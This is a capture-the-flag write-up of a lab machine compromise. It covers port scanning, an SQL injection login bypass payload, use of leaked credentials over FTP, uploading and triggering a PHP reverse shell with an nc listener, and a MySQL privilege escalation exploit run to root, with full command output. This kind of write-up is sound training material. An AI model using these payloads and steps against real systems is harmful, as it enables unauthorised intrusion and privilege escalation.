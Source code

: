 # Password Mismanagers
## Nmap:
```
# nmap 172.30.0.2
...
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
3306/tcp open  mysql
8000/tcp open  http-alt
...
```

## Dirbuster on Port 8000:
```
File found: /login.php - 200
File found: /register.php - 200
File found: /logout.php - 302
File found: /forgot.php - 200
File found: /settings.php - 302
File found: /dashboard.php - 302
File found: /remove.php - 302
File found: /run.sh - 200
File found: /reset.php - 200
File found: /activate.php - 200
```

## Login via SQL Injection:
If you try to register an account on port 8000, it won't work, as you get a `500 Internal Server Error`. So there must be another way to login. Using any email address + SQL Injection Payload bypasses user authentication and logs you in. I did it with `test@abc.com' OR 1=1 -- -`

Once logged in, you are able to see following credentials:

```
bigsbee: F54gB76&KxpF%3
admin: jF5t^3dW3dxh!
```

## FTP Login:
With the credentials of `bigsbee`, I was able to login to FTP. 
```
# ftp 172.30.0.2
Connected to 172.30.0.2.
220 (vsFTPd 3.0.2)
Name (172.30.0.2:root): bigsbee
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
```

As a wordpress blog was running on port 80 and the /uploads directory was available, I was able to upload a php reverse shell there:
```
ftp> cd /var/www/html/wp-content/uploads
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (58.8599 MB/s)
```

Again I had to start my `nc` listener and trigger the reverse shell:

```
# nc -lvnp 8888
listening on [any] 8888 ...
...
# curl http://172.30.0.2/wp-content/uploads/shell.php
```

## Privilege Escalation
While I was on the machine, I discovered further credentials:
```
wp-config.php:
database: 
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'G53DF76gd21$');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

With the same password of wordpressuser, I was able to switch to user `mysql`. As the mysql version was `5.5.51`, I found the following privilege esclation exploit: https://www.exploit-db.com/exploits/40679. Running the exploit got me the root user and thus the flag:

```
bash-4.2$ ./exploit.sh /var/lib/mysql/aa099024646e.err
...
[+] Starting the exploit as 
uid=999(mysql) gid=998(mysql) groups=998(mysql)

[+] Target MySQL log file set to /var/lib/mysql/aa099024646e.err

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxr-xr-x 1 mysql mysql 964600 Mar 22 16:17 /tmp/mysqlrootsh

[+] Symlink created at: 
lrwxrwxrwx 1 mysql mysql 18 Mar 22 16:17 /var/lib/mysql/aa099024646e.err -> /etc/ld.so.preload

[+] Waiting for MySQL to re-open the logs/MySQL service restart...
Do you want to kill mysqld process to instantly get root? :) ? [y/n] y
Got it. Executing 'killall mysqld' now...

[+] MySQL restarted. The /etc/ld.so.preload file got created with mysql privileges: 
-rw-r----- 1 mysql root 19 Mar 22 16:17 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!
-rwsrwxrwx 1 root root 964600 Mar 22 16:17 /tmp/mysqlrootsh

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 964600 Mar 22 16:17 /tmp/mysqlrootsh

Got root! The database server has been ch-OWNED !

[+] Spawning the rootshell /tmp/mysqlrootsh now! 

mysqlrootsh-4.2# id
uid=999(mysql) gid=998(mysql) euid=0(root) groups=998(mysql)
mysqlrootsh-4.2# cd /root
mysqlrootsh-4.2# ls
Password-Manager  anaconda-ks.cfg  flag  services
mysqlrootsh-4.2# cat flag
two_six{c0n6r475_y0u_f0und_7h3_fl46_f8b9d92d6e96358087ad512cf062cee1}
```
